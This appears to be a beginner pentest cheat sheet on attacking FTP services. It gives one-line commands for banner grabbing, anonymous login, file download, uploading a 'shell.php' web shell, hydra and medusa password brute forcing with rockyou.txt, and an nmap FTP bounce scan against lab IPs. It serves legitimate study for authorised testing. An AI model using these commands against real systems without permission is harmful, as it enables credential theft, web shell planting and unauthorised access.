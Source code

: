```yaml
---
title: "21 - FTP"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - ftp
toc: true
hide_title: true
excerpt: ""
---
```


## Banner Grabbing

```
nc -vn <IP> 21 
```

## Connecting to the FTP server using the `ftp` client.

```
ftp 192.168.2.142
```
### anonymous login check 

```
username : anonymous 
password : anonymous 
```

## File download

```
get flag.txt
mget *
```
## File upload

```
put shell.php
```

# Brute Force

### [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

**Default Credentials for FTP**

```
hydra -L /username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.129.203.7
```

```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
``` 

## FTP Bounce Attack

The `Nmap` -b flag can be used to perform an FTP bounce attack:

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
